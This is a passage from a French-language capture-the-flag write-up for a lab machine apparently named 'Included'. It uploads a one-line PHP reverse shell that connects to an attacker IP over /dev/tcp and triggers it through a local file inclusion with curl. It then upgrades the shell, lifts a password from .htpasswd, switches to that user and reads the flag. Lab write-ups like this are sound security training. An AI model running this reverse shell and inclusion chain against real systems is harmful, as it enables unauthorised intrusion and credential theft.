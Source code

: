 Voici le contenu de notre fichier uploadé :  

```bash
❯ cat reverse.php 
───────┬───────────────────────────────────────────────────────────────────────────────
       │ File: reverse.php
───────┼───────────────────────────────────────────────────────────────────────────────
   1   │ <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.15.253/443 0>&1'");?>
───────┴─────────────────────────────────────────────────────────────────────────────── 
```

On doit connaitre l'emplacement ou le fichier a été uploadé avant de l'executer grace au LFI.

❯ curl 'http://10.129.102.34/?file=/var/lib/tftpboot/reverse.php'

On entre en tant que www-data.

Le shell reçu n'est pas complètement interactif alors on l’améliore un peu :

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

On entre avec le compte **www-data**

## Mouvement Lateral

Avec le compte www-data nous n'avons pas le droit de faire grand chose.  
On commence a énumérer, nous regardons donc dans le dossier web pour voir si on trouve des identifiants, voir mieux.

```bash
www-data@included:/var/www/html$ cat .htpasswd
cat .htpasswd
mike:Sheffield19
www-data@included:/var/www/html$ 
```

On trouve quelque chose qui ressemble a un pass avec le nom d'user déjà rencontré dans le /etc/passwd  
mike:Sheffield19

```bash
www-data@included:/var/www/html$ su mike 
su mike
Password: Sheffield19

mike@included:/var/www/html$ cd /home/mike
cd /home/mike
mike@included:~$ ls
ls
user.txt
mike@included:~$ cat user	
cat user.txt 
a56ef91d70cfbf2cdb8f45..........
```
